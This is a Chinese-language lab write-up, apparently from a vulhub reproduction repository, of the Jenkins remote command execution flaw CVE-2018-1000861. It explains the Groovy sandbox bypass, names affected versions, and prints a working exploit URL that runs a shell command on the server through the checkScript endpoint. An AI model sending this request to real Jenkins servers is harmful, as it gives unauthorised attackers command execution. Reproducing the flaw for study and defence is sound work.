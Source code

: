 # Jenkins远程命令执行漏洞（CVE-2018-1000861）

###### by ADummy

### 0x00利用路线

​			直接url执行

### 0x01漏洞介绍

​			Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

影响版本

```
Jenkins version < 2.138
```

### 0x 02漏洞复现

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}

//要进行url编码
```

​			![Jenkins_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Jenkins_RCE_1.jpg)

![Jenkins_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Jenkins_RCE_1.jpg)







